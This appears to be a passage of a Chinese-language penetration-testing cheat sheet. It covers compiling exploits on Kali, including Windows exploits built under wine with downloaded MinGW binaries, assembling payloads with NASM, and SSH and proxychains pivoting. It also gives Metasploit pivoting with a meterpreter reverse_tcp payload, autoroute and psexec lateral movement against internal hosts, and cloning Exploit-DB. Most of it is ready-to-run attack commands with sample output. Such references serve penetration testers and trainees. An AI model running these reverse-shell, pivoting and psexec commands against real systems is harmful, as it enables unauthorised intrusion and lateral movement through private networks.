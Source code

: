 Kali 下编译 Exploit

gcc -m32 -o output32 hello.c (32 位)
gcc -m64 -o output hello.c (64 位)
```
Kali 下编译 Windows Exploit
```
wget -O mingw-get-setup.exe http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download
wine mingw-get-setup.exe
select mingw32-base
cd /root/.wine/drive_c/windows
wget http://gojhonny.com/misc/mingw_bin.zip && unzip mingw_bin.zip
cd /root/.wine/drive_c/MinGW/bin
wine gcc -o ability.exe /tmp/exploit.c -lwsock32
wine ability.exe
```
NASM 命令
```
注：NASM 全称 The Netwide Assembler，是一款基于80×86和x86-64平台的汇编语言编译程序，其设计初衷是为了实现编译器程序跨平台和模块化的特性。

nasm -f bin -o payload.bin payload.asm
nasm -f elf payload.asm; ld -o payload payload.o; objdump -d payload
```
SSH 穿透
```
ssh -D 127.0.0.1:1080 -p 22 user@IP
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains commands target
```
SSH 穿透从一个网络到另一个网络
```
ssh -D 127.0.0.1:1080 -p 22 user1@IP1
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2
Add socks4 127.0.0.1 1081 in /etc/proxychains.conf
proxychains commands target
```
使用 metasploit 进行穿透
```
route add X.X.X.X 255.255.255.0 1
use auxiliary/server/socks4a
run
proxychains msfcli windows/* PAYLOAD=windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 RHOST=IP E
```
或者
```
# https://www.offensive-security.com/metasploit-unleashed/pivoting/
meterpreter > ipconfig
IP Address  : 10.1.13.3
meterpreter > run autoroute -s 10.1.13.0/24
meterpreter > run autoroute -p
10.1.13.0          255.255.255.0      Session 1
meterpreter > Ctrl+Z
msf auxiliary(tcp) > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 10.1.13.2
msf exploit(psexec) > exploit
meterpreter > ipconfig
IP Address  : 10.1.13.2
```
基于 CSV 文件查询 Exploit-DB
```
git clone https://github.com/offensive-security/exploit-database.git
cd exploit-database
./searchsploit –u